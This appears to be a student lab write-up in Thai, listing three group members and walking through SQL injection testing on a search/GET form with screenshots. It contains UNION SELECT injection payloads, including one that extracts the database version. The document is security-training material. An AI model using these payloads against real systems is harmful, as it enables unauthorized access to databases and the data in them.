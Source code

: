 
## SQL Injection (Search/GET) ##

รายชื่อกลุ่ม 
1. Mr.Wisanu  Sameejeang
2. Mr.Tossaporn Hansing
3. Mr.Sirimongkol wongfu


ทดสอบการ Search/Get)

โดยการกด Seacrch ก่อนแล้วดูการแสดงผล

<br>![pic1](/pic/sqli_1_1.jpg)<br>

ทดสอบช่องโหว่
โดยการใส่ค่า  'union select 1,2,3,4,5,6,7 -- -
<br>![pic2](/pic/sqli_1_2.jpg)<br>

ทดสอบโดยการหา version databases โดยการใส่ค่า 'union select 1,2,3,4,version(),6,7 -- -
<br>![pic3](/pic/sqli_1_3.jpg)<br>
